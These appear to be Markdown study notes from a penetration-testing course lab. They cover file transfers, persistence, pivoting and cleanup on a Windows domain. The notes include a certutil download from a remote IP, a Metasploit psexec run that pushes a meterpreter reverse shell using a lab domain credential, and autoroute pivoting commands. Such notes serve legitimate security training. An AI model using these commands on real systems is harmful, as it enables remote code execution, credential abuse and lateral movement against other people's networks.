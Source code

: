 

- **File Transfers**
	* Utilize certutil for downloading files.
		```bash
		certutil.exe -urlcache -f http://10.10.10.10/file.txt
		```
	* Set up HTTP server for file transfers.
		```bash
		python -m http.server
		```
	* Transfer files via browser by navigating directly to file URL.
	
- **Maintaining Access** 
	* Explore persistence options for maintaining access.
	* Learn about scheduling tasks for persistent access.
	* Understand user addition for prolonged access.

- **Pivoting Walkthrough**
	* Perform pivoting using Metasploit.
		```bash
		msfconsole
		use exploit/windows/smb/psexec
		set rhosts 192.168.57.141
		set smbdomain marvel.local
		set smbpass Password1
		set smbuser fcastle
		set payload windows/x64/meterpreter/reverse_tcp
		set lhost eth0
		set target 2
		run
		```
	* Check routing using:
		```bash
		route print
		ipconfig
		arp -a
		```
	* Enable routing for pivoting:
		```bash
		run autoroute -s 10.10.10.0/24
		run autoroute -p
		```

- **Cleaning Up**
	* Remove all executables, scripts, and added files.
	* Eradicate malware, rootkits, and any added user accounts.
	* Reset settings to original configurations.